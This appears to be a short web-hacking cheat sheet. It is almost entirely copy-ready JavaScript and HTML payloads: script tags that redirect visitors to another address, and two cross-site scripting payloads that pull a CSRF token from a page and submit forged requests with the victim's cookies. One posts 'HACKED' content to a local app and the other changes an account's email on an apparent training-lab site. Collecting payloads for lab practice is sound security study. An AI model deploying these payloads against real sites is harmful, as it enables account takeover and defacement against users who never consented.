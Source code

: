 ## JavaScript Special Functions

- Version AngularJS

```javascript
angular.version.full
```

- Redirect

```html
<script>
location="https://test.com"
</script>
```

```html
<script>
window.location.href="http://192.168.1.144:80"
</script>
```

- Petición por post

```javascript
var domain = "http://localhost:10007/newgossip";
var req1 = new XMLHttpRequest();
req1.open('GET', domain, false);
req1.withCredentials= true;
req1.send();

var response = req1.responseText;
var parser = new DOMParser();
var doc = parser.parseFromString(response, 'text/html');
var token = doc.getElementsByName("_csrf_token")[0].value;

var req2 = new XMLHttpRequest();
var data= "title=HACKED&subtitle=HACKED&text=HACKED&_csrf_token="+token;
req2.open('POST', 'http://localhost:10007/newgossip', false);
req2.withCredentials= true;
req2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
req2.send(data);
```

```html
<script>
window.onload = function() {
  var token = document.querySelector('input[name="csrf"]').value;
  
  var domain = "https://0ace00ae049f92cb8051bc93006f00a4.web-security-academy.net/my-account/change-email";
  
  var req = new XMLHttpRequest();
  var data = "email=test%40test.com&csrf=" + encodeURIComponent(token);
  req.open('POST', domain);
  req.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
  req.send(data);
};
</script>
```
